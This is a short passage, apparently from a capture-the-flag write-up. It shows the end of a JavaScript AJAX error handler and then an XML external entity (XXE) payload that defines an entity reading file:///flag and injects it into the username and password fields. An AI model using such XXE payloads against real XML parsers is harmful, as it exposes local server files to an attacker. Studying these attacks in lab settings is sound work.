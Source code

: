```php
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

payload:

```xml
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///flag">
]>

<user><username>&xxe;</username><password>&xxe;</password></user>
```

![image-20230928221239565](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230928221239565.png)

